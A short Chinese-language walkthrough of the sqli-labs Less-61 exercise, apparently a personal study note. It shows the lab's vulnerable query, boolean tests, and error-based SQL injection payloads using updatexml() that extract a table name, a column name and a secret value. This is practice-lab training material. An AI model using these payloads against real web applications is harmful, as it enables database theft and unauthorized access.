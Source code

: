 ```yaml
---
title: less61
url: https://www.yuque.com/u29002979/ep2zrx/yierorvctngwd59u
---
```


```bash
$sql="SELECT * FROM security.users WHERE id=(('$id')) LIMIT 0,1";
```

闭合方式 '))

`?id=1')) and 1=1--+`
`?id=1')) and 1=2--+`

<a name="OK6A0"></a>

# 报错注入

```bash
爆破数据表
?id=-1')) and updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema=database()),0x7e),1) -- +
数据表：vo9h7b29b1

爆破字段名
?id=-1')) and updatexml(1,concat(0x7e,(select  group_concat(column_name)from information_schema.columns where table_schema=database() and table_name='vo9h7b29b1'),0x7e),1) -- +
字段：secret_T03L

获取密码
?id=-1')) and updatexml(1,concat(0x7e,(select secret_T03L from vo9h7b29b1),0x7e),1) -- +
密码：zA5wJbBXHvyGPdbQ8phfJBBn
```
